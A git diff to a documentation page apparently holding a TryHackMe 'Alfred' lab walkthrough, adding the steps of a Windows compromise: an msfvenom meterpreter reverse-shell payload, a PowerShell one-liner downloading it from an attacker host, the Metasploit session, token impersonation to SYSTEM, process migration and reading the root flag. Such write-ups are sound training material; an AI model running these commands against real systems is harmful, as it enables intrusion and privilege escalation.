

Before and after one commit to tymyrddin/red-escalation, a Sphinx documentation site: the page built from source/docs/thm/alfred.md, in a window 1280 px wide and 1400 px high, scrolled down 4139 px. Shown: the whole window at 82% size. Built offline with Sphinx 7.4.7 and the Read the Docs theme 2.0.0, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

````diff
--- a/source/docs/thm/alfred.md
+++ b/source/docs/thm/alfred.md
@@ -154,7 +154,7 @@ Get the flag:
 
 Generate payload:
 
-	# msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=<IP address attack machine> LPORT=<Listen port on attack machine> -f exe -o shell.exe
+	# msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=<IP address attack machine> LPORT=8080 -f exe -o shell.exe
 
 Set up a Python web server to host the reverse shell:
 
@@ -162,7 +162,7 @@ Set up a Python web server to host the reverse shell:
 
 Download the `shell.exe` to the target machine:
 
-	PS  C:\Users\bruce\Desktop> powershell "(New-Object System.Net.WebClient).Downloadfile('http://[ATTACKER IP]:8888/shell.exe','shell.exe')"
+	PS  C:\Users\bruce\Desktop> powershell "(New-Object System.Net.WebClient).Downloadfile('http://[ATTACKER IP]:8080/shell.exe','shell.exe')"
 
 In a new terminal, start Metasploit, select the multi handler module, set the payload type, LHOST and LPORT options to match the payload shell, and run the listener:
 
@@ -177,4 +177,93 @@ In the powershell terminal, execute the reverse shell using the Powershell `Star
 
 	PS C:\Users\bruce\Desktop> Start-Process "shell.exe"
 
+Back in the metasploit terminal:
+
+    [*] Started reverse TCP handler on 10.9.1.53:4443
+    [*] Sending stage (175686 bytes) to 10.10.184.145
+    [*] Meterpreter session 1 opened (10.9.1.53:4443 -> 10.10.184.145:49352) at 2022-09-29 20:13:30 +0100
+
+    meterpreter >
+
 ## Privilege escalation
+
+Check privileges. Left out all disabled services for readability:
+
+```text
+PS C:\Users\bruce\Desktop> whoami /priv
+
+PRIVILEGES INFORMATION
+----------------------
+
+Privilege Name                  Description                               State
+=============================== ========================================= ========
+...
+SeDebugPrivilege                Debug programs                            Enabled
+...
+SeChangeNotifyPrivilege         Bypass traverse checking                  Enabled
+...
+SeImpersonatePrivilege          Impersonate a client after authentication Enabled
+SeCreateGlobalPrivilege         Create global objects                     Enabled
+...
+```
+
+It appears the current user has the SeImpersonate privilege.
+
+### Impersonation
+
+Load [incognito](https://www.offensive-security.com/metasploit-unleashed/fun-incognito/), which allows for impersonating tokens:
+
+    meterpreter > load incognito
+    Loading extension incognito...Success.
+
+List tokens:
+
+    meterpreter > list_tokens -g
+    [-] Warning: Not currently running as SYSTEM, not all tokens will be available
+                 Call rev2self if primary process token is SYSTEM
+
+    Delegation Tokens Available
+    ========================================
+    \
+    BUILTIN\Administrators
+    ...
+
+Impersonate:
+
+    meterpreter > impersonate_token "BUILTIN\Administrators"
+    [-] Warning: Not currently running as SYSTEM, not all tokens will be available
+                 Call rev2self if primary process token is SYSTEM
+    [+] Delegation token available
+    [+] Successfully impersonated user NT AUTHORITY\SYSTEM
+    meterpreter > getuid
+    Server username: NT AUTHORITY\SYSTEM
+
+### Migration
+
+```text
+meterpreter > ps
+Process List
+============
+
+ PID   PPID  Name               Arch  Session  User                     Path
+ ---   ----  ----               ----  -------  ----                     ----
+ 0     0     [System Process]
+ ...
+ 668   580   services.exe       x64   0        NT AUTHORITY\SYSTEM      C:\Windows\System32\services.exe
+ ...
+```
+
+Migrate:
+
+    meterpreter > migrate 668
+    [*] Migrating from 2960 to 668...
+    [*] Migration completed successfully.
+
+### Flag
+
+Get the flag:
+
+    meterpreter > shell
+    C:\Windows\system32>cd config
+    C:\Windows\System32\config>type root.txt
+    type root.txt
````
